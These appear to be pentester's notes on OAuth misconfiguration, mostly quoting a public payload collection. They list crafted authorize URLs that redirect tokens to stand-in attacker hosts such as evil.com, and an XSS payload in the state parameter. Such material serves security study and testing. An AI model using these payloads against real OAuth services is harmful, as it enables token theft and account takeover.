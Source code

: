 * once auth server is known look for configurations via GET to

```bash

/.well-known/oauth-authorization-server
/.well-known/openid-configuration

```

* from there one may have several options: register rogue endpoint, ...

### Steal OAuth token via referrer

Source `https://swisskyrepo.github.io/PayloadsAllTheThings/OAuth%20Misconfiguration/#stealing-oauth-token-via-referer`

```bash

# simple malicious redirect

https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful

https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com

# Redirect to an accepted Open URL like google to get the access token 

https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com

https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F


# the scope to bypass a filter on redirect_uri:

https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
Executing XSS via redirect_uri

https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>

```

### Register rogue endpoint

## OpenID connect

* OAuth is not mean for authentication
* OpenID Connect extends the OAuth protocol to provide a dedicated identity and authentication
* it enables authentication on top of OAuth